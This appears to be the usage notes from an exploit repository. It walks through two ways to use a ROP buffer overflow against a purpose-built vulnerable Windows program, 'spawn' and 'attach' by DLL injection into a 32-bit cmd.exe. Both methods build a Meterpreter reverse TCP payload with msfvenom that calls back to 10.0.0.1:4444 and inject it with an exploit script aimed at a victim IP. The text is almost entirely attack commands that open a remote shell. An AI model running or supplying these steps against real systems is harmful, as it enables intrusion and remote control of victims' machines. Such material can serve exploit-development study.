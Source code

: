 ## First method (spawn)

Run application with buffer overflow on the victim:

`vuln_rop.exe`

Prepare evil code:

`msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f raw -o meter.bin`

Inject evil code into the victim via buffer overflow:

`python2 expl_rop.py c VICTIM_IP 8888 meter.bin`

## Second method (attach)

Find 32-bit process on the victim:

`\windows\syswow64\cmd.exe`

`tasklist | findstr cmd.exe`

Inject buffer overflow into legimate process:

```dllinject PID_OF_CMD c:\full\path\to\vuln_rop.dll```

Prepare evil code:

`msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f raw -o meter.bin`

Inject evil code into the victim via buffer overflow:

`python2 expl_rop.py c VICTIM_IP 8888 meter.bin`
